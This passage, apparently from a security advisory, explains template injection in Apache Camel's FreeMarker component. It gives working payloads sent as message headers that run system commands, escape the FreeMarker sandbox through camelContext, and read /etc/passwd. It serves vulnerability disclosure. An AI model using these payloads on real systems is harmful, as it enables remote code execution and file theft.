 <p>However, if an attacker sends a message with the <code class="language-plaintext highlighter-rouge">CamelFreemarkerTemplate</code> header, they will be able to override the contents of the <code class="language-plaintext highlighter-rouge">template.ftl</code> template and provide arbitrary content.</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>System.out.println("Attacking Freemarker endpoint");
template.convertAndSend("freemarker", "FOO", new MessagePostProcessor() {
    public Message postProcessMessage(Message message) throws JMSException {
        String payload = "FREEMARKER ${\"freemarker.template.utility.Execute\"?new()(\"id\")}";
        message.setStringProperty("CamelFreemarkerTemplate", payload);
        return message;
    }
});
</code></pre></div></div>

<p>Note: the above example uses JMS queues, depending on the Camel consumer, these headers could be JMS message properies, HTTP request headers, etc.</p>

<p>Even if the latest version of FreeMarker is in use with the ClassResolver sandbox enabled, an attacker will still be able to run arbitrary commands by abusing the <code class="language-plaintext highlighter-rouge">camelContext</code> object exposed to the template context. A simple example would involve using the <code class="language-plaintext highlighter-rouge">CamelContext.getInjector()</code> and <code class="language-plaintext highlighter-rouge">CamelContext.getClassResolver()</code> to be able to instantiate arbitrary objects:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>&lt;#assign cr = camelContext.getClassResolver()&gt;
&lt;#assign i = camelContext.getInjector()&gt;
&lt;#assign se = i.newInstance(cr.resolveClass('javax.script.ScriptEngineManager'))&gt;
${se.getEngineByName("js").eval("var proc=new java.lang.ProcessBuilder('id');var is=proc.start().getInputStream(); var sc=new java.util.Scanner(is); var out=''; while (sc.hasNext()) {out += (sc.nextLine())};out")}";
</code></pre></div></div>

<p>Alternatively they could use the <code class="language-plaintext highlighter-rouge">camelContext</code> to run arbitrary language expressions:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>$camelContext.resolveLanguage("groovy").createExpression(&lt;PAYLOAD&gt;).evaluate(exchange, Object.class);
</code></pre></div></div>

<p>It is also possible to provide a <code class="language-plaintext highlighter-rouge">CamelFreemarkerResourceUri</code> header which will allow an attacker to specify the URI of the template to be used. An attacker can use this header as an alternative way of achieving RCE by pointing the URI to an attacker-controlled resource, or they could use it to disclose arbitrary file system resources. E.g:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>System.out.println("Attacking Freemarker endpoint");
template.convertAndSend("freemarker", "FOO", new MessagePostProcessor() {
    public Message postProcessMessage(Message message) throws JMSException {
        message.setStringProperty("CamelFreemarkerResourceUri", "file:///etc/passwd");
        return message;
    }
});
</code></pre></div></div>
